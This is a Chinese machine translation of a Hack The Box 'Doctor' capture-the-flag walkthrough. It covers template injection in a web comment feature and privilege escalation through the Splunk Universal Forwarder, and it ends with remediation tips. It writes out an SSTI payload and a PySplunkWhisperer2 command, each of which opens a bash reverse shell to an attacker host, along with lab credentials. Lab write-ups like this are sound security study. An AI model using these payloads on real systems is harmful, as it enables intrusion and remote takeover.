# HTB 医生[报道]

> 原文：<https://infosecwriteups.com/htb-doctor-writeup-61e589400875?source=collection_archive---------0----------------------->

## 服务器端模板注入| Splunk 用友 RCE

# 摘要

该计算机正在端口 80 上运行 web 应用程序，该应用程序易受服务器端模板注入(SSTI)的攻击。该攻击可用于直接攻击内部 web 服务器，从而导致 RCE 攻击。

这台机器上运行的 web 应用程序正在使用 **Twig(PHP)** 模板在网页和电子邮件中嵌入动态内容。使用该 web 应用程序，**用户**可以在自己注册到该系统后**发表评论**。由于在用户输入数据时没有**没有** **净化** **检查**，因此极易受到 SSTI 攻击。

对于权限提升，在枚举过程中发现，只需利用 splunk 通用转发器 RCE 漏洞就可以获得根权限。请记住，此计算机正在端口 8089 上运行 Splunk Atom Feed: Splunkd Rest API。

**计算平台:** Ubuntu

**使用的工具:**

*   **枚举** — `nmap` | `gobuster` | `dirsearch.py`
*   **Linux 盒子枚举**——`linpeas.sh`|`ps -aux`|`/etc/passwd`
*   **漏洞利用** —自定义代码|[pysplunkwhisper 2](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

**CVE(美国)**

**关键词:** Linux |服务器:werkzeug/1 . 0 . 1 python 3 . 8 . 2 | splunkd 8 . 0 . 5 | Apache/2 . 4 . 41(Ubuntu)服务器| REST API | SSTI

# 列举

Nmap TCP 扫描输出



# 据点

*** * * * * * * *端口 80 HTTP**Apache httpd 2 . 4 . 41(Ubuntu)*** * * * * * * * * * * * * * * ***

对于这台机器，至少我们知道这个网站很容易受到某种注射。经过一番侦察，登录入口被找到了。

[http://10 . 10 . 10 . 209/departments . html #](http://10.10.10.209/departments.html#)



在这里我注册了自己，在那里我可以发表评论。现在，这是可以执行注入攻击的地方。

运行不同的基本注入代码并检查它们的输出。对于这个站点，源代码没有泄漏任何输出。

在 gobuster 扫描期间，名为**归档文件**的目录是一个空白页。



发现在这个链接上看到了注入代码输出，源代码【http://doctors.htb/archive[的](http://doctors.htb/archive)起作用了！

## **剥削 SSTI**

**步骤 1** —注入以下代码，用于服务器端模板注入



**步骤 2** —访问[http://doctors.htb/archive](http://doctors.htb/archive)源代码，其中输出是注入代码的结果。



既然模板注入已经确定，我们就可以滥用它来获得反向壳。

*** * * * * * * *端口 8089 SSL/HTTP**Splunkd httpd*** * * * * * * * * * * * * * * * * * * * * * * * * ***

在这一阶段，以下网站没有用，因为它需要用户登录才能访问**服务。**

> 由于服务在端口 8089 上使用了 **ssl/http** ，因此 URL 应该是:[**https://10 . 10 . 10 . 209:8089**](https://10.10.10.209:8089)



# 反向外壳

按照上面显示的攻击步骤，我使用了下面的 SSTI 漏洞利用代码来生成一个反向外壳。

`{{x()._module.__builtins__[‘__import__’](‘os’).popen(“bash -c ‘bash -i >& /dev/tcp/10.10.14.14/1234 0>&1’”).read()}}`



这之后必须刷新页面:[http://doctors.htb/archive](http://doctors.htb/archive)获取外壳



# 横向运动

分析了`linpeas.sh`的输出，我最终在 apache2 日志中发现了用户名和密码。



成功了！！！

> **注意:**使用同样的凭证，我们也可以登录到 https://doctor.htb:8089/services



# 权限提升

分析了`linpeas.sh`,我强调了下面的输出:(尽管一些基本的检查也会有所帮助)



发现[漏洞利用](https://github.com/DaniloCaruso/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)脚本在 Linux 上为 Splunk 通用转发器运行远程代码执行(RCE)。

`python pySplunkWhisperer2_remote.py --lhost 10.10.14.28 --host 10.10.10.209 --username shaun --password Guitar123 --payload “/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.28/8898 0>&1’”`



**成功！！！**



# 补救

*   净化 SSTI，在处理用户输入时删除不需要的和危险的字符。
*   Splunk UF 应该以尽可能低的权限运行。
*   更改用友密码。
*   禁用 Splunk UF 管理端口(8089)